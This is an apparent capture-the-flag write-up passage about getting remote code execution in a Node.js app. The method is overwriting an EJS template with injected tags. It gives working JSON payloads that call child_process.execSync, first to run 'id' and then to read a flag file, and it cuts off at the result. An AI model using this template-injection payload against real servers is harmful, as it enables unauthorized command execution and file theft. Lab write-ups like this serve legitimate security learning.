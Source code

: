 #### 2°/ Find a payload to get RCE

Now what know how to overwrite `index.ejs`, we need to find a good payload to execute JavaScript code. As the file is going inside a templating engine, we need to use template balises (`<% %>`).

if we follow the following cheatsheet : 
https://github.com/aadityapurani/NodeJS-Red-Team-Cheat-Sheet
We find a good payload to execute a command :
```js
console.log(process.mainModule.require('child_process').execSync('id').toString());
```
So let's try that. The following JSON data should be enough : 
```JSON
{
	"to":"Brumens/index.ejs",
	"msg":"<% console.log(process.mainModule.require('child_process').execSync('id').toString()); %>"
}
```
![](dojo35/img/ywh-3.png)

It worked, we successfully got RCE !
## PoC

Now that we have a working exploit, we can use it to read the content of `/tmp/flag.txt`.
The following JSON body will output the content of flag :
```JSON
{
	"to":"Brumens/index.ejs",
	"msg":"<% console.log(process.mainModule.require('child_process').execSync('cat /tmp/flag.txt').toString()); %>"
}
```

Result :